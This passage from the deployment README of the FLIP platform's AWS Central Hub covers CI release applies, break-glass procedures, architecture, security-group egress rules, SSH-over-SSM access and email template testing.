**not** skip is the LZA ingress advisory: a separate advisory-only step runs on
exactly these re-dispatches, because quiescing FL says nothing about whether
`aicentre-lza-iac` has been updated.

`flip-api` is deliberately outside the watch list: its deploy is a rolling
replacement (`desired_count` 1, `deployment_minimum_healthy_percent` 100) and the
run is held by fl-server, not the hub. Watching it would hold nearly every apply,
since any image-tag change updates the task definition.

### Release applies: pinning `v<X.Y.Z>` instead of the sha (FLIP#1283)

A release merge to `main` is applied twice, and the second apply is the one that
makes production name its release.

The image a service reports as its version is baked at build time
(`FLIP_RELEASE`). The `main` build of a release commit is triggered by a branch
event, so it bakes `sha-<short7>`; the `:v<X.Y.Z>` images — same source, same
content, `FLIP_RELEASE=v<X.Y.Z>` — are a *separate* set of builds that
`release.yml` dispatches at the tag. They do not exist when the push-triggered
apply runs, so the resolver cannot discover the release by looking. It has to be
told:

1. The push to `main` runs `terraform_apply.yml` as usual and pins
   `sha-<short7>`.
2. `release.yml` creates the tag, dispatches the fourteen image builds at it, then
   **waits** for those runs to conclude (bounded by the repository variable
   `RELEASE_BUILD_WAIT_SECONDS`, default 5400s; polled every
   `RELEASE_BUILD_POLL_SECONDS`, default 30s). A red build or an expired budget
   fails the release job and names what to re-run — production is simply left on
   the sha pin, never moved to a release that did not build.
3. On success it dispatches `terraform_apply.yml` with
   `release_tag: v<X.Y.Z>`, which the workflow forwards to
   `resolve-image-tags.sh` as `RELEASE_TAG`. The resolver then pins
   `v<X.Y.Z>@sha256:…` and **fails closed** if the release image is absent,
   rather than falling back to the sha or the configured tag — a silent fallback
   would leave production on the *previous* release with a green run.

Three constraints are easy to break and worth keeping in mind:

- **The dispatch ref is `refs/heads/main`, never the tag.** The apply role's
  trust policy pins `job_workflow_ref` to this workflow at
  `refs/heads/{develop,main}`; a dispatch at `refs/tags/v<X.Y.Z>` cannot assume
  it. `.github/tests/workflows/test_release.py` holds the ref.
- **`release_tag` is a `main`/prod input.** The estate is chosen by the ref
  (`develop` → stag, `main` → prod), and a release is a prod event by
  definition, so the workflow rejects `release_tag` on any other ref.
- **A running apply is never interrupted — a queued one can be.** Both applies
  land in the concurrency group `tf-apply-main` with `cancel-in-progress:
  false`, so the release dispatch queues behind an in-flight push apply and
  applies second, which is the order that matters since it pins the release over
  the sha. In practice the push apply is long finished by then: the wait in step
  2 has just spent the builds' lifetime.

  `cancel-in-progress: false` only protects the run that is already *running*.
  GitHub keeps one pending run per group, so a run queued later on `main`
  replaces one queued earlier. **If you re-dispatch `terraform_apply.yml` while a
  release is in flight — most often the `fl_quiesced: true` re-dispatch of a held
  apply — pass `release_tag: v<X.Y.Z>` as well.** Without it your run takes the
  queued release apply's place, `release.yml` stays green and production is left
  on the previous release. `release.yml` now watches for exactly that: its
  "Confirm the release apply actually ran" step re-dispatches the apply once if
  the queued one was cancelled before it started, and fails the release if it
  happens twice.

It also bypasses the `deploy/providers/AWS/**` path filter, which is the point: a
release that touches no infrastructure would otherwise never re-pin the hub.

A release apply that changes the FL task-definition tag trips the FL gate above
and holds for an operator's `fl_quiesced: true` re-dispatch, exactly as any other
FL-affecting apply does. That is deliberate — a platform release is an attended
event — and the gate is not weakened for it.

### Break-glass

The pipeline is additive — the laptop workflow is unchanged and remains the
recovery path. Use the profile and `HUB` of the estate you mean (see
[Repointing CI at the LZA accounts](#repointing-ci-at-the-lza-accounts) for the
full table):

| Estate | Break-glass command |
| --- | --- |
| LZA staging | `AWS_PROFILE=stag make init plan apply HUB=stag` |
| LZA production | `AWS_PROFILE=prod make init plan apply HUB=prod` |

Each row needs that estate's env file (`.env.stag` / `.env.prod`) present locally; the Makefile's guard refuses to run on
a mismatched `AWS_PROFILE`.

**A laptop apply is only ever a recovery action on a CI-applied account.** Both
LZA estates are applied by CI, so a hand-run there is
reverted by the next run and reported by the nightly drift job meanwhile. Run one
only when:

- **CI is wedged / the role is broken.** The CI roles are owned by the platform
  repositories, outside this root's state, so a bad main-state apply cannot lock CI
  out of the apply that would fix it; a broken role is fixed there.
- **The change must not go through CI at all** — the targeted one-offs the repoint
  runbook calls for, such as creating `/flip/ci/host_aws_public_key` in a new LZA
  account before CI can plan there.

Two more pipeline-level escapes:

- **A plan is stuck on the state lock.** PR plans run with `-lock=false` and never
  take it. An apply does; `make force-unlock LOCK_ID=<id>` releases it.
- **An apply must not run.** Disable `terraform_apply.yml` in the Actions tab, or
  revert the merge — the workflow only acts on `deploy/providers/AWS/**` changes.

## Troubleshooting

### Quick Diagnosis

First, run the automated status check script to identify issues:

```bash
make status HUB=<stag|prod>
```

This will automatically diagnose:

- AWS resource health
- Network connectivity
- Application endpoint availability
- Docker container status
- System resource usage

Review the output for failed checks and follow the specific troubleshooting steps below.

### Detailed Troubleshooting Guide

For known failure modes encountered during staging/production deployment — including Terraform state
drift, ECS service errors, CloudFront cache invalidation, RDS connectivity, and SSM Session Manager
issues — see [`TROUBLESHOOTING.md`](TROUBLESHOOTING.md). Each entry includes symptoms, root cause, and
fix.

## Architecture

### Services

The platform supports a cloud-only setup (Central Hub + Trust on AWS) or a hybrid setup (Central Hub on AWS + Trust on-premises). Trusts poll the Central Hub for tasks — all communication is outbound from the trust.

1. **flip-ui (Frontend)**: Served as static assets from an S3 bucket by the networking account's edge CloudFront at the canonical subdomain. See the [flip-ui on S3 + CloudFront](#flip-ui-on-s3--cloudfront) section.

2. **Central Hub application services (ECS Fargate, private subnets)**: The hub's application containers run as ECS Fargate tasks, not on EC2.
   - `flip-api` (Backend API) — fronted by the internal NLB's web listener, which the edge relays `/api/*` to
   - `fl-api-net-1` (Federated Learning API for Network 1) — internal-only, reachable via Cloud Map `flip.local`
   - `fl-server-net-1` (Federated Learning Server for Network 1) — fronted by the internal NLB's FL listener

3. **Central Hub SSM bastion** (`aws_instance.ec2_instance`, t3.micro, 10 GB root volume, **private subnet**): Intentional minimal host for ad-hoc `psql` and network diagnostics. It runs no application containers, has no inbound security-group rules, and is reachable only through SSM Session Manager / SSH-over-SSM.

4. **Trust EC2** (cloud model, t3.xlarge, **private subnet**): Hosts trust-related services (automatically provisioned)
   - trust-api (polls hub for tasks)
   - imaging-api
   - data-access-api
   - fl-client-net-1 (FL Client for Network 1)
   - XNAT (medical imaging platform)
   - Orthanc (DICOM server)
   - OMOP database

5. **On-Premises Trust** (hybrid model, optional): Same trust services running on a local host
   - Provisioned via [`trust/deploy/ansible/`](../../../trust/deploy/ansible/README.md)
   - Polls the Central Hub over the internet via HTTPS (outbound only)

| Application Component | Runtime |
| --------------------- | ------- |
| **Central Hub (S3, served by the edge CloudFront)** | |
| FLIP UI ✅ | S3, read by the networking account's CloudFront (WAF attached) |
| **Central Hub (ECS Fargate, private subnets)** | |
| FLIP API ✅ | Fargate task behind the internal NLB |
| FL API ✅ | Fargate task, Cloud Map internal |
| FL Server ✅ | Fargate task behind the internal NLB |
| **Trust Services (Docker Compose on Trust EC2, private subnet)** | |
| Trust API ✅ | Trust EC2 |
| Imaging API ✅ | Trust EC2 |
| Data Access API ✅ | Trust EC2 |
| XNAT (medical imaging) ✅ | Trust EC2 |
| Orthanc (DICOM server) ✅ | Trust EC2 |

All trust → hub traffic is **outbound from the trust** (the hub never dials the trust).

The request and FL paths, and the data and platform services, are drawn under ["Deploying onto an LZA
estate"](#deploying-onto-an-lza-estate). Both pictures are rendered from
[`architecture/central_hub.py`](architecture/central_hub.py) (the `diagrams` library over graphviz), not drawn by
hand. `make aws-diagram` at the repo root regenerates the two committed copies; the ReadTheDocs page
[Deploy the Central Hub on AWS (LZA)](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub-aws-lza.html)
renders the same script at build time. `tests/test_architecture_diagram.py` pins the script's node map to the
`.tf` files in both directions — a drawn resource that disappears, or a new ECS service / bucket / load balancer
that is not drawn, fails the `AWS deploy tests` CI job — so a change to a drawn resource updates
`TERRAFORM_ADDRESSES` in the same PR. The committed copies are the container render (`python:3.12-slim`
+ Debian graphviz), which is byte-stable from run to run; a host `dot` of another graphviz version lays the
same graph out differently and legitimately produces a different file for an unchanged diagram, so do not
commit a re-render whose only change is the graphviz that made it.

### Central Hub Infrastructure

- **Network**: the accelerator-provisioned VPC, discovered by Name tag (`network_lza.tf`): compute in its TGW-routed **app** subnets, RDS in the isolated **data** subnets. No IGW and no NAT — AWS APIs go through the estate's central interface endpoints, images through the in-account ECR pull-through cache.
- **ECS Fargate cluster**: Runs the Central Hub application services (`flip-api`, `fl-api-net-1`, `fl-server-net-1`) as awsvpc tasks in the **app subnets**. Task definitions, services, and per-service security groups live in `ecs*.tf` and `iam_ecs.tf`.
- **Central Hub SSM bastion**: t3.micro instance with a 10 GB root volume in a **private subnet**. It carries only the SSM managed IAM policy and a PostgreSQL client for ad-hoc RDS operations; application workloads run on ECS Fargate.
- **Trust EC2**: Separate t3.xlarge instance in a **private subnet**, running Trust services via Docker Compose
  - Deployed using custom Terraform module (`modules/trust_ec2`)
  - Automatic Docker and Docker Compose installation via user_data
  - Automatic Docker network creation for inter-service communication
  - No inbound ports open — access via SSM (`ssh flip-trust`) and SSM port forwarding for XNAT/Orthanc debugging (`make forward-trust`)
- **Internal NLB** (`module.fl_server_internal_nlb`, `fl_ingress_lza.tf`): one static private IP per app subnet, which the networking account's edge registers once as targets. A `:443` web listener forwards to the `ecs-flip-api-lza` target group (plain TCP until `MANAGE_DNS=true`, then TLS on the ACM certificate) and an `FL_SERVER_PORT` listener to the `fl-server-net-1` target group. Its security group admits the networking ingress CIDRs and the VPC CIDR. **Why an NLB?** FLARE FL traffic is end-to-end mutual-TLS over gRPC, and a Layer 7 load balancer terminates TLS, which breaks FLARE's own certificate handshake. An NLB (Layer 4) does raw TCP pass-through, so the FL client and FL server complete their mTLS handshake untouched.
- **Edge (networking account)**: CloudFront with its WAF, serving the UI bucket over cross-account OAC and relaying `/api/*`, and an internet-facing edge NLB for FL traffic — declared in aicentre-lza-iac, not here.
- **ACM**: one `eu-west-2` certificate for the web listener, created once `MANAGE_DNS=true`.
- **Route53**: a private hosted zone resolving the FL server's bare name to the internal NLB for in-VPC callers; the public records live in the networking account.
- **EFS**: Shared file systems and access points used by the FL services for workspace volumes (configs, certs, transfer dir). Mount targets live in the **app subnets**.
- **Cloud Map (Service Discovery)**: Private DNS namespace `flip.local` used for ECS task-to-task resolution (e.g. `fl-api-net-1.flip.local`).
- **RDS**: PostgreSQL 17 managed database (Terraform default, see `var.postgres_version`), in the **data subnets**. Subnet group + security group ingress restricted to the Central Hub bastion SG and the `flip-api` ECS task SG.
- **CloudWatch**: Logging and monitoring for ECS tasks and the Trust EC2. The minimal Central Hub bastion does not run the CloudWatch agent.
- **Secrets Manager**: Secure storage for API secrets and database credentials (`FLIP_API` secret).
- **SSM Parameter Store**: Configuration values read by ECS tasks at startup — bucket URIs, internal service URL, internal-service-key header name.
- **S3 Backend**: Remote state storage with environment-specific buckets, using S3 native locking (`use_lockfile = true` in `backend.tf`; no DynamoDB lock table).

### Subnet placement at a glance

| Resource | Subnet | Notes |
| --- | --- | --- |
| Internal NLB | **App** | One static private IP per subnet (`.251`), registered once by the edge |
| Central Hub SSM bastion (`aws_instance.ec2_instance`) | **App** | t3.micro, 10 GB; no inbound rules or app workloads; `psql` + SSM only |
| Trust EC2 (`module.trust_ec2`) | **App** | No inbound ports; SSM-only |
| ECS Fargate tasks (`flip-api`, `fl-api-net-1`, `fl-server-net-1`) | **App** | `assign_public_ip = false`, awsvpc ENIs |
| RDS Proxy | **App** | |
| RDS (PostgreSQL) | **Data** | Local routes only |
| EFS mount targets | **App** | One per AZ |

### Trust Infrastructure

Trust services can run on AWS EC2 or on-premises. Both models use the same Docker Compose stack. Trusts poll the Central Hub for tasks — all communication is outbound from the trust.

**Cloud Trust (AWS EC2)** — deployed using the `trust_ec2` Terraform module:

- Automated Docker and Docker Compose installation
- Trust compose stack deployment via user_data script
- Automatic Docker network creation for inter-service communication
- Runs in a private subnet with no inbound ports — XNAT and Orthanc accessible only via SSM port forwarding for debugging

**On-Premises Trust** — provisioned via `make provision-local-trust` and the Ansible playbook in [`trust/deploy/ansible/`](../../../trust/deploy/ansible/README.md):

- Same Docker Compose stack, running on a local Ubuntu host
- No inbound port forwarding or firewall rules needed — all trust communication is outbound

### Port configuration

Ingress at the internal NLB (not at any EC2 SG — both EC2 hosts have no inbound rules). Nothing in the workload account is reachable from the internet; the networking account's edge is:

| Port | Load balancer | Status | Source allow-list | Purpose |
| ---- | ------------- | ------ | ----------------- | ------- |
| **22** | — | 🔴 **CLOSED everywhere** | n/a | SSH never exposed — remote access is via SSM Session Manager tunnel |
| **443** | Internal NLB | 🟢 **OPEN to the edge path** | `networking_ingress_cidrs` + the VPC CIDR | `/api/*` relayed from the edge CloudFront to `flip-api` (TCP until `MANAGE_DNS=true`, then TLS) |
| **`FL_SERVER_PORT`** | Internal NLB | 🟢 **OPEN to the edge path** | `networking_ingress_cidrs` + the VPC CIDR | TCP/gRPC pass-through from the edge NLB to the `fl-server-net-1` Fargate task |

Ports referenced internally only (no internet-facing ingress; reached only from inside the VPC or from the load balancers):

- **8000** — `flip-api` ECS task port (the web target group's target port). Not exposed externally.
- **8000** — `fl-api-net-1` ECS task port (`local.api_container_port`). Cloud Map internal only; no LB and no external ingress.
- **5432** — RDS PostgreSQL. Reachable only from the Central Hub bastion SG and the `flip-api` ECS task SG.
- **Trust API** — no inbound port needed; trusts poll the hub outbound.

### Trust EC2 egress allowlist (GHSA-8465)

The trust EC2's security group (`module.trust_security_group` in `main.tf`) sets
`block_all_outbound = true` and an explicit `egress_rules` allowlist (`local.trust_egress_rules`) —
previously it had no outbound restriction at all (`0.0.0.0/0`, every protocol/port, including
DNS). Security groups can only match on CIDR, a peer security group, or an AWS-managed prefix
list — never a hostname — so most destinations can only be expressed as a port.

**Read the table below as a union, not as a set of per-destination controls.** A security group is
a union of its rules: traffic is allowed if *any* rule matches. Because every hostname-less
destination collapses onto `0.0.0.0/0:443`, the effective outbound policy is "**any destination on
TCP 80, 443 and `FL_SERVER_PORT`, plus DNS to the VPC resolver — and nothing else**". Deleting the
Hugging Face reason would not block Hugging Face, and the S3 prefix-list rule does not confine S3
egress to that prefix list. Those narrower rules record intent — what the port is open *for*, and
what would still have to work if the 443 floor were ever narrowed — and are shadowed by the floor
today. The real, headline-worthy gain is the **port/protocol surface** (down from every port and
every protocol to three TCP ports) plus **blocking third-party DNS resolvers**.

**One row per AWS rule.** An EC2 security-group rule is identified by (direction, protocol, port
range, destination); the description is a mutable annotation, not part of that key. Rules differing
only by description are the *same* rule to AWS, so the Terraform emits one rule per tuple and
enumerates the reasons in the last column. `egress_rules` carries a validation that fails the plan
if two rules ever resolve to the same tuple again — the apply error it prevents
(`InvalidPermission.Duplicate`) picks its winner nondeterministically under Terraform's default
parallelism and never converges on re-runs.

| Rule (protocol/port → destination) | Scope | What it carries, and why |
|---|---|---|
| TCP 443 → `0.0.0.0/0` | any host | Central Hub API (CloudFront) for trust-api polling; GHCR image pulls (fl-client / trust-api / imaging-api / data-access-api / orthanc); Docker Hub (grafana / loki / alloy); Hugging Face mock OMOP/Orthanc seeding (`make seed-trust-data`, part of the standard `deploy-trust` chain); `download.docker.com` (Docker Engine install/upgrade, `geerlingguy.docker`); `awscli.amazonaws.com` (one-time AWS CLI v2 install); Ubuntu apt + `esm.ubuntu.com` over HTTPS; **PyPI** (the seeding step's `uv run` in `trust/seed_trust.sh`; Flower runs install nothing at run time, FLIP#1418); the **CloudWatch agent `.deb`** from `s3.amazonaws.com/amazoncloudwatch-agent/…` — us-east-1 S3, *outside* the regional prefix list, so it survives only on this floor; and the AWS APIs with no VPC endpoint provisioned (`ssmmessages`, `ec2messages`, `monitoring`). |
| TCP 80 → `0.0.0.0/0` | any host | Ubuntu apt mirrors over HTTP (package install/upgrade). |
| TCP 443 → S3 managed prefix list | `com.amazonaws.<region>.s3` | S3, for the AI Centre FL kit sync. A prefix list rather than a raw CIDR because S3's edge IPs rotate. Shadowed by the 443 floor — intent, not enforcement. |
| TCP `FL_SERVER_PORT` → `0.0.0.0/0` | any host | FL training traffic to the FL-server NLB. **The one destination the 443 floor does not cover**, and therefore the one that cannot be scoped to a peer SG: the NLB is internet-facing (public subnets, no `internal = true`), so its DNS resolves to public IPs even from inside the VPC, and the trust EC2 (private subnet, no public IP) reaches it out through the NAT gateway — which is precisely what the NLB's own ingress rule allowlisting the NAT public IP attests. A peer-SG destination matches only the private IPs of ENIs carrying that SG, so it would match none of this traffic and silently drop every FL connection while image pulls, hub polling and SSM all stayed healthy. Narrowable only once the NLB itself becomes `internal`, or by giving it static per-AZ EIPs via `subnet_mapping` and allowlisting those `/32`s. |
| TCP + UDP 53 → `cidrhost(var.vpc_cidr, 2)/32` | VPC resolver | Name resolution. **Inert as a control**: AWS documents that security groups cannot filter traffic to the Route 53 Resolver (the VPC+2 address / AmazonProvidedDNS), so these two rules neither permit nor restrict resolution — do not debug a DNS fault against them, and do not "fix" one by widening them. The control that actually satisfies #876's DNS criterion is the **absence** of a `0.0.0.0/0:53` rule, which *does* block third-party resolvers such as `8.8.8.8`. |

**NTP is deliberately absent and needs no rule.** Time sync runs against the AMI's default
link-local Amazon Time Sync service (`169.254.169.123`), which security groups do not evaluate. If
anyone repoints chrony at a public NTP pool, the failure is silent clock drift surfacing weeks
later as TLS / SigV4 / SSM errors — not as a firewall error.

The `0.0.0.0/0`-scoped rules are the practical floor for a security-group-only design and are
accepted as a permanent, documented limitation rather than a gap slated for a follow-up — closing
them for real would mean a domain-aware layer (AWS Network Firewall domain rules, or a forward
proxy), which is out of scope here. Even so, this is materially tighter than the previous
allow-all-protocols-all-ports default.

**Egress is managed inline; ingress by standalone rules.** `modules/secgroup` renders the allowlist
into the `aws_security_group` resource's inline `egress` attribute and attaches no
`aws_security_group_rule` of type `egress`. The asymmetry with ingress is deliberate and must not
be "tidied away": inline `ingress`/`egress` are attributes-as-blocks, so an explicit value —
including `[]` — is authoritative rather than unmanaged, and mixing it with standalone rule
resources on the same group is the combination the AWS provider documents as causing "rule
conflicts, perpetual differences, and rules being overwritten". In practice the plan immediately
after such an apply revokes the entire allowlist, SSM access included, and never converges.
Ingress keeps the opposite mechanism (standalone rules, the inline attribute never set), which is
what lets externally attached rules — such as the internal-NLB rules in `fl_ingress_lza.tf` —
coexist safely.

### Remote Access via SSM Session Manager

Port 22 is **not** open in any security group: SSH is tunnelled through the SSM agent on each instance.

**Prerequisites**

- AWS CLI authenticated for the correct account and region:

  ```bash
  export AWS_PROFILE=<your-profile>   # e.g. stag or prod
  export AWS_REGION=eu-west-2         # must match the region where instances are deployed
  aws sso login --profile $AWS_PROFILE
  ```

- [AWS Session Manager plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html) installed (minimum version 1.2.319.0):

  **macOS:**

  ```bash
  brew install session-manager-plugin
  brew upgrade session-manager-plugin  # Update if already installed
  ```

  **Linux (Ubuntu/Debian):**

  ```bash
  curl "https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb" -o "session-manager-plugin.deb"
  sudo dpkg -i session-manager-plugin.deb
  ```

  **Verify installation:**

  ```bash
  session-manager-plugin --version  # Should output version >= 1.2.319.0
  ```

- SSH key at `~/.ssh/host-aws` (configured in Step 3 of [Pre-configurations README](../../README.md#step-3-get-ssh-key-configured))

**Updating `~/.ssh/config`**

After `terraform apply`, run:

```bash
make ssh-config HUB=<stag|prod>
```

This calls `update_ssm_ssh_config.py`, which reads the EC2 instance IDs from Terraform outputs and writes `Host flip` / `Host flip-trust` blocks like the following into `~/.ssh/config`:

```text
# Managed by FLIP - SSH over SSM Session Manager
Host flip
    HostName i-0123456789abcdef0
    User ubuntu
    IdentitiesOnly yes
    IdentityFile ~/.ssh/host-aws
    StrictHostKeyChecking accept-new
    ProxyCommand aws ssm start-session --target %h --document-name AWS-StartSSHSession --parameters 'portNumber=%p' --region eu-west-2 --profile <your-profile>
    ControlMaster auto
    ControlPath ~/.ssh/cm-flip-%r@%h:%p
    ControlPersist 10m
```

**Connecting**

```bash
ssh flip        # Central Hub SSM bastion
ssh flip-trust  # Trust EC2
```

Both aliases resolve through the SSM tunnel — no public IP or open port 22 is needed. If your AWS session has expired, re-run `aws sso login --profile $AWS_PROFILE` before connecting.

**Troubleshooting SSM Access**

| Problem | Diagnostics | Solution |
| --------- | ------------- | ---------- |
| `Unable to locate credentials` | `aws sts get-caller-identity` returns error | Run `aws sso login --profile $AWS_PROFILE` to refresh session |
| `SessionManagerPlugin not found` | `command -v session-manager-plugin` returns nothing | Install plugin: `brew install session-manager-plugin` (macOS) or see prerequisites above |
| `[ERROR] SessionManagerPlugin is not installed` | Session manager plugin is missing or outdated | Upgrade plugin: `brew upgrade session-manager-plugin` or download latest version |
| `InvalidInstanceID.NotFound` | SSH attempts to connect but fails | Verify instance exists: `terraform output Ec2InstanceId` and `terraform output TrustEc2InstanceId` |
| `AccessDeniedException` | `aws ssm start-session` returns access denied | Check EC2 instance IAM role has `ssm:StartSession` and `ec2messages:*` permissions (Terraform should have created this) |
| `Connection timeout` (hanging) | SSM tunnel hangs without error | Check `aws ssm describe-instance-information` reports the instance as `Online`, verify the instance is running, and confirm its subnet reaches the estate's central SSM endpoints. No inbound SSH rule is required. |
| `Unable to connect to SSM endpoint` | Connection fails immediately | Verify AWS_REGION matches deployment region: `echo $AWS_REGION` should match `eu-west-2` (or your region) |
| `Bad ProxyCommand` in ~/.ssh/config | SSH config syntax error | Re-generate config: `make ssh-config` and verify it looks like the example above |

**Testing Connectivity**

```bash
# Test SSM session directly (before trying SSH)
aws ssm start-session --target $(terraform output -raw Ec2InstanceId)

# Should open an interactive shell. Run `uname -a` to verify connectivity, then `exit`.

# Then test SSH
ssh flip  # Should connect via SSM tunnel
```

---

## Email Templates

All email templates are stored as standalone HTML files under `templates/`, organised by service. Both Terraform and the Python test utility load from the same files, ensuring a single source of truth.

### Template Structure

```sh
deploy/providers/AWS/
├── templates/
│   ├── cognito/
│   │   ├── invite.html                      # Temporary password invitation
│   │   ├── password_reset_code.html         # Password reset with verification code
│   │   └── password_reset_link.html         # Password reset with direct link
│   └── ses/
│       ├── flip-access-request.html         # Access request notification
│       ├── flip-access-request.txt          # Plain-text fallback
│       ├── flip-xnat-added-to-project.html  # Added-to-XNAT-project notification
│       ├── flip-xnat-added-to-project.txt   # Plain-text fallback
│       ├── flip-xnat-invite.html            # XNAT set-your-own-password invite link (FLIP-PT-079)
│       └── flip-xnat-invite.txt             # Plain-text fallback
├── services.tf                              # Instantiates module "cognito" (which loads cognito/ templates via file())
├── main.tf                                  # Instantiates module "ses" (which loads ses/ templates via file())
├── modules/
│   ├── cognito/main.tf                      # Cognito config - loads cognito/ templates via file() (uses var.templates_dir)
│   └── ses/main.tf                          # SES config - loads ses/ templates via file() (uses var.templates_dir)
└── tests/
    └── test_email_templates.py              # Test utility for all templates
```

### How Templates Are Loaded

**Cognito templates** (`modules/cognito/main.tf`; `services.tf` only wires the module):

```hcl
email_message = file("${var.templates_dir}/invite.html")
```

**SES templates** (`modules/ses/main.tf`; `main.tf` only wires the module):

```hcl
html = file("${var.templates_dir}/flip-access-request.html")
text = file("${var.templates_dir}/flip-access-request.txt")
```

Changes to template files are automatically picked up on next `terraform apply` or test run.

### Template Placeholders

**Cognito templates** use single-brace placeholders substituted by AWS Cognito:

| Placeholder | Replaced By | Example |
| --- | --- | --- |
| `{username}` | Cognito username (email) | <john.smith@example.com> |
| `{####}` | 6-digit temporary password or verification code | 123456 |
| `{flip_alb_subdomain}` | ALB domain from Terraform var | flip-app.example.com |
| `{## Reset Password ##}` | Cognito-substituted reset link (link text between `{##` and `##}`) | \<a>Reset Password\</a> |

**SES templates** use double-brace (Mustache) placeholders substituted at send time:

| Placeholder | Replaced By | Used In |
| --- | --- | --- |
| `{{name}}` | Requestor's name | access-request |
| `{{email}}` | Requestor's email | access-request |
| `{{purpose}}` | Access request purpose | access-request |
| `{{trust_name}}` | Trust name | xnat-credentials, xnat-added-to-project |
| `{{project_name}}` | XNAT project name | xnat-credentials, xnat-added-to-project |
| `{{project_id}}` | XNAT project ID | xnat-credentials, xnat-added-to-project |
| `{{username}}` | XNAT username | xnat-credentials, xnat-added-to-project |
| `{{password}}` | XNAT password | xnat-credentials |

`xnat-added-to-project` is the "you already have an account, you have now been given
access to another project" variant — same four placeholders as `xnat-credentials` minus
`{{password}}`, since no new credential is minted.

### Quick Local Testing

```bash
cd deploy/providers/AWS

# Test all templates and generate HTML previews
python3 tests/test_email_templates.py

# View in browser with local HTTP server
python3 tests/test_email_templates.py --serve
# Open http://localhost:8000/flip_email_invite.html

# Test with custom data
python3 tests/test_email_templates.py \
  --username "user@health.org" \
  --subdomain "flip-stag.example.com"
```

The validation script checks:

- HTML structure and syntax
- Placeholder substitution for both Cognito and SES templates
- FLIP branding colors (#61366e, #9452A8)
- Required text elements present
- Generates browser-viewable preview files

### Testing Emails End-to-End

After deploying, register a new user through FLIP: the Cognito invitation email exercises the templates in a real
client. Operator steps are in [Deploy the Central Hub → Email setup](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#email-setup).

### Email Client Compatibility

| Client | Support | Notes |
| -------- | --------- | ------- |
| Gmail Web | Full | CSS gradients supported |
| Outlook Web | Full | CSS gradients with fallback |
| Apple Mail | Full | Dark mode compatible |
| Outlook Desktop | Mostly | Table layout reliable |
| Thunderbird | Full | Standard HTML support |
| Yahoo Mail | Good | Limited CSS support |

For professional cross-client testing: [Litmus](https://www.litmus.com/) or [Email on Acid](https://www.emailonacid.com/)

### SES Prerequisites

Verifying the sender identity, re-verifying an expired one and leaving the SES sandbox:
[Deploy the Central Hub → Email setup](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#email-setup). To check sending is enabled for
the account: `aws ses get-account-sending-enabled --region <aws-region>`.

### Troubleshooting Email Issues

| Issue | Solution |
| ------- | ---------- |
| Email gradients don't render | Most clients support gradients; solid color fallback in template |
| Button not clickable | Some clients disable links for security; check email client settings |
| Text wraps awkwardly | Tables use responsive max-width: 600px (standard) |
| Colors wrong in dark mode | Test in both light/dark modes; colors are contrast checked |
| Logo not loading | Verify the image URL is accessible (hosted on GitHub raw content) |
| Email not delivered | Check SES verification status and sandbox mode restrictions |

### Making Template Changes

1. **Edit template file** in `templates/cognito/` or `templates/ses/`
2. **Test locally**: `python3 tests/test_email_templates.py` (verify all 6 pass)
3. **Review**: Check generated `email_previews/*.html` files in browser
4. **Deploy**: Changes are picked up on next `terraform apply`
